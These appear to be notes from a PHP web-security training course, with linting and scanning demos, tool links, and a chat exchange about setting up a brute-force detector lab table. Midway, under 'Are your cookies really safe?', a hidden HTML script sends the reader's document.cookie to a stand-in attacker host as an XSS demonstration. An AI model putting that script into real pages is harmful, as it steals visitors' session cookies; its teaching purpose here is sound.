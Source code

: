 DEMO:
Checking a file with PHP_CodeSniffer
$ phpcs /var/www/php_sec/bad_get_example.php

--------------------------------------------------------------------------------
FOUND 5 ERROR(S) AFFECTING 2 LINE(S)
--------------------------------------------------------------------------------
  2 | ERROR | Missing file doc comment
 20 | ERROR | PHP keywords must be lowercase; expected "false" but found "FALSE"
 47 | ERROR | Line not indented correctly; expected 4 spaces but found 1
 51 | ERROR | Missing function doc comment
 88 | ERROR | Line not indented correctly; expected 9 spaces but found 6
--------------------------------------------------------------------------------

DEMO: nmap -A -T4 172.16.82.1
DEMO: wireshark packet capture
DEMO: logwatch

* IE Tools:
  * http://portswigger.net/burp/proxy.html
  * http://blogs.msdn.com/b/ie/archive/2008/09/03/developer-tools-in-internet-explorer-8-beta-2.aspx
  * http://msdn.microsoft.com/en-us/ie/aa740478

* Chrome:
  * http://code.google.com/chrome/devtools/docs/overview.html

* Encryption:
  * REF: http://www.zend.com/en/webinar/PHP/70170000000bWL2-strong-cryptographie-20110630.flv

After module 4, use the VM to figure out where insecurities lie
Are your cookies really safe?<div style="visibility:hidden;"><img name="x" src="default.png"><script>document.x.src="http://paypal.hack/logger.php?info="+document.cookie;alert("I guess not!");</script></div>


## Q & A
* Q: Brute force detector lab setup?
* A: Need to create a table "bfdetect"
```
CREATE TABLE `bfdetect` (
  `id` bigint(3) unsigned NOT NULL auto_increment,
  `today` varchar(20) NOT NULL,
  `minute` varchar(3) NOT NULL,
  `ip` varchar(16) NOT NULL,
  `forward_ip` varchar(500) NOT NULL,
  `useragent` varchar(100) NOT NULL,
  `userlan` varchar(100) NOT NULL,
  `isnotify` char(1) default '0',
  `notify4today` char(1) default '0',
  PRIMARY KEY  (`id`)
) ENGINE=InnoDB DEFAULT CHARSET=latin1 AUTO_INCREMENT=1 ;
   (Look in /securitytraining/data/sql/course.sql
. Based on the config, found in the securitytraining app config under the 'bfdetect' key, the detector checks the table for previous requests from the various $_SERVER params and logs the request. After four (config) requests are made from the same $_SERVER params within a 5 minute (config) setting, a log entry is created and a response to the attacker is slowed with a sleep option. In order for this script to work, you have to log more than 4 requests in 5 minutes in order for the log entry and sleep response. I decided not to populate the data due to this timing requirement which is based on the current server time.
```
[8:55:55 PM] Daryl Wood: You can populate the table with four quick CLI executions, then run the fifth from the securitytraining brute force page with the login. I just noticed the SQL table is not in the VM version. Oops , sorry for that, will fix this.
[9:00:00 PM] Daryl Wood: Just fixed the VM to include the bfdetect table. In the mean time, have your students load the table create SQL from the dump, and you should be able to run the BF tool.
